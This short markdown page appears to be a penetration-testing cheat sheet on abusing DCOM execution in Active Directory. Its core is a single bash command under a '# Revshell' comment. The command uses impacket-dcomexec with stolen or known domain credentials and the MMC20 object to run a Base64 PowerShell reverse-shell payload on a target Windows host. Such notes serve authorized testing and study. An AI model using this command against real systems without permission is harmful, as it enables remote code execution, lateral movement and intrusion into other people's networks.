 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["ExecuteDCOM", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


---
### Abuse #1: ExecuteDCOM

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Revshell
impacket-dcomexec <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET> '<powershell #3 Base64>' -silentcommand -object MMC20
```

</div>

{{< /tabcontent >}}

<br>